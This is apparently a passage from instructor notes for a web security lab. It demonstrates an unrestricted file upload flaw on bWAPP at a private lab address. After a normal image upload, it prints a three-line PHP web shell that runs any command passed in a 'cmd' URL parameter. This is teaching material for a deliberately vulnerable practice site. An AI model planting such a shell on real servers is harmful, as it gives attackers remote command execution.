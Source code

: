     - Return to the file upload webpage at <http://192.168.13.35/unrestricted_file_upload.php>.

    - Explain that we will upload an image that has already been added to the desktop of the computer.
      
      - Select Browse.
      
      - From the desktop, select the image `sample_picture.jpg`. This should take you back to the file upload webpage and show the image selected.
      
      - Select Upload.

      - It should display the following image:

        ![On the Unrestricted File Upload page of the bWAPP website, a red arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
  
    - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.13.35/images/sample_picture.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - Summarize that this step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that students don't need to understand the syntax of this script):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
   - Return to the desktop of your web lab and show that the script has already been created and added there.
